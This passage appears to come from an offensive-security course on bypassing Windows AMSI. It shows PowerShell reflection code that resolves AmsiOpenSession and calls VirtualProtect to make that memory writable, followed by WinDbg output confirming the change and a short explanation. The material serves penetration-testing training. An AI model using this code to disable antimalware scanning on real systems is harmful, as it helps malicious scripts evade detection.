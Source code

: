 ```
	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

> Listing 48 - Calling VirtualProtect to modify memory protections

As shown above, we combined _LookupFunc_ and _getDelegateType_ into one statement along with the argument types to create the _$vp\_function_ variable from which we call the _Invoke_ method. The _$oldProtectionBuffer_ variable is used to store the old memory protection setting as required.

Before executing the code, we must resume PowerShell\_ISE execution by entering the g in WinDbg. The code itself should simply return the value "True" if successful, but we can verify it in WinDbg by pausing execution through _Debug_ > _Break_ and then repeating the !vprot command:

```
0:001> !vprot 7FFFC3A224C0
BaseAddress:       00007fffc3a22000
AllocationBase:    00007fffc3a20000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000001000
State:             00001000  MEM_COMMIT
Protect:           00000080  PAGE_EXECUTE_WRITECOPY
Type:              01000000  MEM_IMAGE
```

> Listing 49 - Displaying modified memory protections with WinDbg

However, the new memory protection is set to _PAGE\_EXECUTE\_WRITECOPY_ instead of PAGE\_EXECUTE\_READWRITE. In order to conserve memory, Windows shares AMSI.DLL between processes that use it. PAGE\_EXECUTE\_WRITECOPY is equivalent to PAGE\_EXECUTE\_READWRITE but it is a private copy used only in the current process.
